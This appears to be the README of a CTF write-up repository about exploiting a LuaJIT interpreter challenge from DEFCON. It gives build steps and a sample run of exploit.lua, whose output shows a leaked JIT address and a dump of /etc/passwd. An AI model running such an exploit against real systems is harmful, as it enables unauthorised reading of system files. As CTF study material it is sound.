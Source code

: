 # luajit-pwn

This is a story about a DEFCON CTF challenge, language interpreter and lots of curiousity :)

To get the entire context, see: [tbd:url](#)

To read the full series: [tbd:url](#)

# Build

To build, just run `./build-env.sh` and you'll end up with the following files in the repo's root directory:

```diff
$ ls
build-env.sh
exploit.lua
+ libluajit-5.1.so.2
+ LuaJIT-2.1.0-beta3/
+ luajit-expdev
luajit-expdev.c
README.md
+ v2.1.0-beta3.tar.gz
```


# Run

You might get an error('_error while loading shared libraries: libluajit-5.1.so.2_'), just set `LD_LIBRARY_PATH` to the current directory so the dynamic linker will know where to load the luajit lib from.

Example:
```
$ export LD_LIBRARY_PATH=.

$ ./luajit-expdev exploit.lua 
INSPECTION: This ship's JIT cargo was found to be 0x7f30a03dfd45
... yarr let ye apply a secret offset, cargo is now 0x7f30a03dfdf9 ...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
...
```
